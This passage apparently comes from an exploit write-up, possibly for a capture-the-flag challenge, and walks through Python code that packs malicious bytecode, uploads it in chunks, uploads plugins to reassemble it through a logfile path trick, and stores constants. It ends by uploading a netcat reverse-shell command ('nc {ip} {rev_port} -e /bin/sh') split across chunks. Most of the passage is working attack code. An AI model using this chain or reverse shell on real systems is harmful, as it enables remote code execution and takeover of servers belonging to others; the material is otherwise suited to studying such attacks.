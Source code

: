 After that, we need to append the constants to make them available to the
plugin:

```  
exploit_bytecode += b";"  
exploit_bytecode += b";".join(n.encode() for n in co_names)  
```

### Upload exploit bytecode in chunks

Check how many chunks we need to store the exploit in:

```  
num_chunks = len(exploit_bytecode) // chunk_size + 1  
```

Pad the exploit code to a multiple of 12:

```  
exploit_bytecode = exploit_bytecode.ljust(chunk_size * num_chunks, b";")  
```

Upload exploit chunks:

```  
for i in range(0, len(exploit_bytecode), chunk_size):  
   upload_file(exploit_bytecode[i : i + chunk_size])  
```

### Upload plugins to assemble exploit chunks

```  
for i in range(num_chunks):  
   upload_plugin(  
       str(i), get_plugin_code(plugin_log_index, exploit_filename, base_index + i)  
   )  
```

### Upload additional constants

In order to make the exploit work, we need a few more constants.  
These have to be uploaded after the plugins to make sure the plugins can be
saved to disk successfully before any entries with invalid filenames are
created (e.g. saving the file `plugins/expl` won't work because there is no
directory `storage/plugins` but we cannot traverse the path because then the
logfile method won't find it since this is operating from the working
directory).

Store the filename which is used as "logfile" at index `ord("a")`

```  
upload_file("plugins/expl")  
```

Store the `nc` command at index `ord("b")`

```  
commmand = f"nc {ip} {rev_port} -e /bin/sh".ljust(chunk_size * 3, " ")  
upload_file(commmand[:chunk_size])  
upload_file(commmand[chunk_size : 2 * chunk_size])  
upload_file(commmand[2 * chunk_size :])  
```
